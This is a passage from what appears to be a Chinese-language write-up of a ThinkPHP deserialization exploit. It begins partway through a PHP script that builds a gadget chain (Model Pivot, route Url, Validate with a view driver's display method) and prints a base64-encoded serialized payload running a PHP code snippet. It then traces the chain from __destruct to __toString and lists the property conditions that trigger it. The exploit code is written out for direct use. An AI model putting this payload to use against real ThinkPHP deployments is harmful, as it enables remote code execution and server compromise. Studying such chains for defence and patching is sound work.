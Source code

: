 ```php
    }
    class Validate{
        protected $type;
        function __construct(){
             $this->type = [
                "getDomainBind" => [new view\driver\Php,'display']
            ];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{} 
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}

namespace{
    echo base64_encode(serialize(new think\Model\Pivot('<?php phpinfo(); exit(); ?>')));
}
```

我们来理一理这个链子。首先全局找__destruct()

![image-20211230201652890](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211230201652890.png)

大概到达这一步就可以触发toString方法了。

需要满足的条件就是

```
$this->lazySave true
$this->withEvent = true
$this->data = ["a"]
```

就可以对于`$this->name`进行触发

![image-20211230201957367](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20211230201957367.png)
